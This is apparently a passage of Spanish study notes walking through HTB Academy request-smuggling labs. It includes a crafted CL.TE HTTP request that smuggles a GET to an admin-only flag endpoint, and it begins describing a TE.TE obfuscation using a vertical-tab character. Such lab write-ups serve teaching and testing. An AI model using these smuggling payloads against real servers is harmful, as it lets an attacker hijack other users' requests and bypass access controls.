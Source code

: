 **_EL SERVIDOR FRONTEND LO VERIA ASI_**

![[Pasted image 20230512225601.png]]

**_EL SERVIDOR BACKEND LO VERIA ASI_**

![[Pasted image 20230512225651.png]]

>[!NOTE]
>Necesitamos agregar una línea separada con la palabra clave `Dummy` a nuestra primera solicitud para "ocultar" la primera línea de la solicitud del usuario administrador `GET / HTTP/1.1` como un valor de encabezado HTTP para preservar la sintaxis de la sección de encabezado de la solicitud.

#### Ejercicio CL.TE

Hay un endpoint que revela una bandera pero solo el administrador tiene permisos, obliguemos al usuario administrador a revelar la bandera. Endpoint: `/admin.php?reveal_flag=1`

![[Pasted image 20230512231239.png]]

Interceptamos el index de la pagina `/` y lo modificamos:

```http
POST / HTTP/1.1
Host: 165.227.232.214:31437
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

0

GET /admin.php?reveal_flag=1 HTTP/1.1
Hust:
```

>[tip]
>Da igual es nombre que le pongamos al header de la siguiente peticion `Hust:`, solo asegurese de que coincida con el `Content-Length`.

esperamos 10 segundos y al recargar el endpoint si el parametro: `/admin.php` nos mostrara automaticamente ela bandera

![[Pasted image 20230512231218.png]]

### Exploiting TE.TE vulnerability to do admin action (HTB Academy)

Hay un endpoint que revela una bandera pero solo el administrador tiene permisos, obliguemos al usuario administrador a revelar la bandera. Endpoint: `/admin?reveal_flag=1`

> El exploit es sensible al tiempo, por lo que debe enviar su carga útil justo antes de que el administrador acceda a la página. Enviar la solicitud periódicamente una vez cada segundo debería funcionar. El administrador accede a la página cada 10 segundos.

primero vamos a identificar con que ofuscacion podemos generar un codigo de estado `405 - Method not allowed`, despues de probar todos, el que funciono fue el uso de tabulacion vertical (`0x0b`):
